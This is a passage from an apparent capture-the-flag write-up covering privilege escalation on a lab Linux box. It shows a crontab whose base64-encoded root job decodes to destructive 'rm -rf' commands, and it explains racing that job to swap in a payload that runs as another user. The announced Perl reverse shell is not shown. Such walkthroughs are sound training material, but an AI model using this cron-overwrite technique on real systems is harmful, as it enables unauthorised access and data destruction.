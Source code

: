 ## Wrap

That concludes the linux fundamentals part of this box, now it gets more interesting!

# Privesc

By the look of the challenges we need to go from person to person up to root. Let's get cracking!

For a large amount of these privsecs I used [https://gtfobins.github.io](https://gtfobins.github.io) It's a really good set of documentation about the different methods you can use to exploit binaries.

## Viktor -> Dalia

To escalate from Viktor to Dalia we need to abuse the crontab.

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	dalia	sleep 30;/opt/scripts/47.sh
*  *	* * *	root	echo "IyEvYmluL2Jhc2gKI2VjaG8gIkhlbGxvIDQ3IgpybSAtcmYgL2Rldi9zaG0vCiNlY2hvICJIZXJlIHRpbWUgaXMgYSBncmVhdCBtYXR0ZXIgb2YgZXNzZW5jZSIKcm0gLXJmIC90bXAvCg==" | base64 -d > /opt/scripts/47.sh;chown viktor:viktor /opt/scripts/47.sh;chmod +x /opt/scripts/47.sh;
#
```

Essentially every minute root writes the following into /opt/scripts/47.sh
```sh
#!/bin/bash
#echo "Hello 47"
rm -rf /dev/shm/
#echo "Here time is a great matter of essence"
rm -rf /tmp/
```

Then after 30 seconds the crontab runs that file as Dalia. So what we need to do is after the root cronjob writes to the file is replace the contents with our own payload. 

We're going to use a Perl reverse shell
